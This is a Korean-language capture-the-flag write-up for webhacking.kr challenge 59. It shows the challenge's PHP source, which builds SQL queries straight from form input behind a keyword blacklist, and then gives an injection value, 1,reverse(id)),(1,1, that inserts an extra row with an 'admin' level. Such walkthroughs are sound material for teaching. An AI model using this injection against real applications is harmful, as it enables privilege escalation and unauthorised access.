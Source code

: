 ================================================================================================================
[webhacking.kr] 59
================================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="id=nimda&phone=1,reverse(id)),(1,1",arrowhead="normal"];
        step3 -> step2[label="success",arrowhead="normal"];
        step4 -> step5[label="id=nimda&phone=1",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

접근하면 하나의 웹 페이지가 뜨게 되는데 소스를 클릭하면 소스 내용을 확인할 수 있습니다.

.. code-block:: php

	<?

	if($_POST[lid] && $_POST[lphone])
	{
	$q=@mysql_fetch_array(mysql_query("select id,lv from c59 where id='$_POST[lid]' and phone='$_POST[lphone]'"));

	if($q[id])
	{

	echo("id : $q[id]<br>lv : $q[lv]<br><br>");

	if($q[lv]=="admin")
	{
	@mysql_query("delete from c59");
	@clear();
	}

	echo("<br><a href=index.php>back</a>");
	exit();
	}

	}


	if($_POST[id] && $_POST[phone])
	{
	if(strlen($_POST[phone])>=20) exit("Access Denied");
	if(eregi("admin",$_POST[id])) exit("Access Denied");
	if(eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])) exit("Access Denied");

	@mysql_query("insert into c59 values('$_POST[id]',$_POST[phone],'guest')");
	}

	?>
	<html><head><title>Challenge 59</title></head><body>
	<form method=post action=index.php>
	<table border=1>
	<tr><td>JOIN</td><td><input name=id></td><td><input name=phone></td><td><input type=submit></td></tr>
	<tr><td>LOGIN</td><td><input name=lid></td><td><input name=lphone></td><td><input type=submit></td></tr>
	</form>
	</body></html>


목표는 JOIN을 통해 admin 계정을 생성하고, LOGIN을 통해 해당 계정으로 로그인을 진행하는 것입니다.

JOIN에 대한 소스 내용을 보시면 파라미터 값들이 eregi를 통해 특정 문자열에 대해 필터링이 되어 있습니다. 
그리고, 자신의 권한에 해당하는 값에 guest라는 문자열로 박혀있습니다.

|

Filtering Bypass
================================================================================================================

admin 문자열에 대해 필터링이 걸려있기 때문에, reverse 함수를 이용하여 admin 문자열을 거꾸로 입력하는 방식을 사용합니다.

.. code-block:: javascript

    $_POST[id] = nimda
    $_POST[phone] = 1,reverse(id)),(1,1

    "insert into c59 values('nimda',1,reverse(id)),(1,1,'guest')"

계정 추가가 성공적으로 되면 nimda 계정으로 로그인하면 Clear!!

.. code-block:: python

    $_POST[lid] = nimda
    $_POST[lphone] = 1

    "select id,lv from c59 where id='nimda' and phone='1'"

